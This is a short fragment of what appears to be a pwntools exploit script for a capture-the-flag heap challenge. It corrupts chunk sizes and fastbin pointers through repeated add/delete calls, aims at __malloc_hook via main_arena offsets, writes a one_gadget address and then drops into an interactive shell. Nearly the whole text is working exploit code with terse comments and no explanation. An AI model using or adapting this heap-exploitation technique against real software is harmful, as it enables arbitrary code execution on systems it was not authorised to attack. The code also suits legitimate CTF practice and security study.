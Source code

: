    add(0xb0,'a\n')#4
    #now top chunk is mlh4
    
    #now malloc_hook-0x10 inserted into fastbin
    delete(2)
    #re edit
    add(0x2a0,'a'*0x108+p64(0xf1)+'a'*0xe8+p64(0x61)+'\n')#2
    # enlarge the fake chunk
    delete(4)
    #change 4 size to f0
    #f->4->mlh-0x10
    delete(2)
    #reedit
    add(0x2a0,'a'*0x108+p64(0xf1)+p64(main_arena+0x58)+'a'*0xe0+p64(0x61)+'\n')#2
    #fake fd point to unsorted bin
    add(0xe0,'a\n')#4
    #f->mlh-10
    delete(2)
    #reedit
    add(0x2a0,'a'*0x108+p64(0xe1)+p64(main_arena+0x58)+'a'*0xd0+p64(0x71)+'\n')#2
    #shrink 4's size, 
    add(0xd0,'ZZZZZZZZ\n')#5
    #4 is used
    
    add(0x80,p64(one_gadget)+'\n')
    
    gdb.attach(p)
    delete(4)
    #gdb.attach(p)
    delete(5)
    #gdb.attach(p)
    raw_input()
    p.interactive()
